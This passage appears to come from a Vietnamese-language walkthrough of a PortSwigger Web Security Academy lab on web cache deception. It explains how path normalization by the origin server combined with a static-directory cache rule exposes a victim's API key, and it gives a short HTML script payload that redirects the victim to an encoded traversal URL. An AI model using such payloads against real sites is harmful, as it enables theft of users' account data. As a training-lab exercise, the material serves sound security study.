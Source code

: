 ==>Trả 404 nhưng có cache 

==>/resources/là static directory cache rule.

-Bước 3: Kết hợp cache rule + normalization:

    • Gửi "/resources/../my-account"   --> server normalize về "/my-account" --> Trả API key, cache thì coi đây là "/resource/..."  --> Lưu lại

-Bước 4: Tạo script exploit:

```html
<script>
document.location="https://0ada001c03f9b32180d0d639005e00ff.web-security-academy.net/resources/..%2fmy-account"
</script>
```

![alt text](./img/lab3-3.png)

- Ở web này ta xác định origin server đóng vai trò normalization!!!


## Lab: Exploiting cache server normalization for web cache deception
